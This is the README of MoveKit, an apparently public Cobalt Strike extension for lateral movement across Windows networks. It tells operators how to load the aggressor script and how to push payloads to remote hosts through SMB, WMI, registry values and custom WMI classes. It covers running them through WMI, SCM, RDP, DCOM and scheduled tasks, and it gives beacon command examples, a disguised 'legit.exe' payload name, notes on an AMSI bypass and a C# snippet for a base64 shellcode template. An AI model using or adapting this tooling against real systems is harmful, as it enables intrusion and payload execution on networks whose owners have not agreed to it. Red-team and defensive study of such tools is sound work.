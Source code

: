 ## MoveKit - Cobalt Strike lateral movement kit

Movekit is an extension of built in Cobalt Strike lateral movement by leveraging the execute_assembly function with the SharpMove and SharpRDP .NET assemblies. The aggressor script handles payload creation by reading the template files for a specific execution type. 

IMPORTANT: To use the script a user will only need to load the `MoveKit.cna` aggressor script which will load all the other necessary scripts with it. Additionally, depending on actions taken the [SharpMove](https://github.com/0xthirteen/SharpMove) and [SharpRDP](https://github.com/0xthirteen/SharpRDP) assemblies will need to be compiled and placed into the `Assemblies` directory. Finally, some of the file moving requires dynamic compiling which will require Mono.

When loading the aggressor script there will be a selector loaded to the `menubar` named `Move`. There are multiple selections a user can select. First, users can select to execute a command on a remote system through WMI, DCOM, Task Scheduler, RDP, or SCM. Second, there is the `Command` execution mechanism which uses download cradles to grab and execute the files. Third, the `File` method drops a file on the system and executes it. There is `Write File Only` that does not do any execution, move data only. Finally, there is a `Default` settings to make using GUI faster and used with beacon commands. The default settings are used for anything that can accept a default.

To use the beacon commands it will read the default settings and use a few command line arguments. A beacon command example:
`<exec-type> <target> <listener> <filename>`

`move-msbuild 192.168.1.1 http move.csproj`

Additionally, the custom pre built beacon command is a little bit different. Command example:
`move-pre-custom-file <target> <local-file> <remote-filename>`

`move-pre-custom-file computer001.local /root/payload.exe legit.exe`


The location field is the trickiest part of the project. When selecting `WMI` file movement `location` will be used, if SMB is selected then it will not be used (so it can be left empty). `Location` takes three different values. First, it `location` is a URL then when the payload is created it will be hosted by Cobalt Strike's web server. The beacon host where the assembly will be executed from will make a web request to the URL and grab the file, which will be used in an event sub on the target host to write the file. Second, if `location` is a Windows directory then it will upload the created file to the beacon host and the assembly will read it from the file system and store in the event sub to write to the remote host. Finally, if the `location` field is a linux path or the word `local` then it will dynamically compile the payload into the assembly being executed. However, if the file is above the 1MB file size limit then it will show an error. 

For all file methods the payload will be created through the aggressor script. However, if a payload is already created users can select to use the `Custom (Prebuilt)` option to move and execute it. 

The kit contains different file movement techniques, execution triggers, and payload types.

File movement is considered the method used for getting a file to a remote host
File movement types:
  * SMB to flat file
  * WMI to flat file
  * WMI to Registry Key Value
  * WMI to Custom WMI Class property

Command trigger is considered the method used for executing a specific command on a remote host.
Command trigger types:
  * WMI
  * SCM
  * RDP
  * DCOM (Multiple)
  * Scheduled Tasks
  * Modify Scheduled Task (Existing Task has action updated, executes task and resets action)
  * Modify Service binpath (Existing Service has binpath updated, service is started and reset back to original state)

Shellcode only execution:
  * Excel 4.0 DCOM
  * WMI Event Subscription (coming soon)

Hijacks:
  * Service DLL Hijack (coming soon)
  * DCOM Server Hijack (coming soon)


#### Dependencies
  * Mono (MCS) for compiling .NET assemblies (Used with dynamic payload creation, InstallUtil, and Custom-NonPreBuilt). Also when FileWrite Assembly is used. 

#### Gotchas:
* Sometimes execute_assembly will be called before file movement, if this happens you can execute the payload by unchecking the *Auto* check box
* The kit does not automatically clean up files, it is left up to the operator

##### Note: It is recommended not using the default templates with the project.

To replace a template you must meet two requirements. First, the template must be named the technique (example: `msbuild.csproj`). Second, the source code must contain the string `$$PAYLOAD$$` where base64 encoded shellcode will go and be able to convert a base64 string to a byte array. Example for C#:
```
string strSC = "$$PAYLOAD$$";
byte[] sc = Convert.FromBase64String(strSC);
```

A change was added that allows for the defaults to update the 'Find and Replace string' and the shellcode formats in the 'Update Defaults dialog'. By default these are `$$PAYLOAD$$` and base64.

#### Operational considerations

  * If using task scheduler scheduled tasks will be created and deleted
  * If using SCM services will be created and deleted
  * If using the AMSI bypass it will only work for WSH not PowerShell
  * If using the AMSI bypass it will modify the registry by either updating or creating a registry key then setting it back to its original value or deleting
  * It uses Cobalt Strike's `execute-assembly` function so it will inject into a sacrificial process like other post ex jobs
  * Files will be dropped on disk if using any of the `File` or `Command` methods
  * Templates should not be used, they are all public
  * All of the techniques are not new and are pretty well known


#### Credits

  Some of the code, templates or inspiration comes from other people and projects
  * WMI - [SharpWMI](https://github.com/GhostPack/SharpWMI) by [harmj0y](https://twitter.com/harmj0y)
  * DCOM - [SharpCOM](https://github.com/rvrsh3ll/SharpCOM) by [rvrsh3ll](https://twitter.com/424f424f) and [SharpSploit DCOM](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/LateralMovement/DCOM.cs) by [cobbr](https://twitter.com/cobbr_io)
  * SCM - [CSExec](https://github.com/malcomvetter/CSExec) by [Tim Malcomvetter](https://twitter.com/malcomvetter)
  * Service DLL Hijack [SharpSC](https://github.com/djhohnstein/SharpSC) by [djhohnstein](https://twitter.com/djhohnstein)
  * Service binpath modifcation [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) by [Mr-Un1k0d3r](https://twitter.com/MrUn1k0d3r)
  * [Shellcode runner template](https://github.com/Arno0x/CSharpScripts/blob/master/shellcodeLauncher.cs) by [subTee](https://twitter.com/subTee)
  * [CACTUSTORCH payloads](https://github.com/vysecurity/CACTUSTORCH) by [vysecurity](https://twitter.com/vysecurity)


_There are probably bugs somewhere, they tend to come up from time to time. Just bring them up and I'll fix them_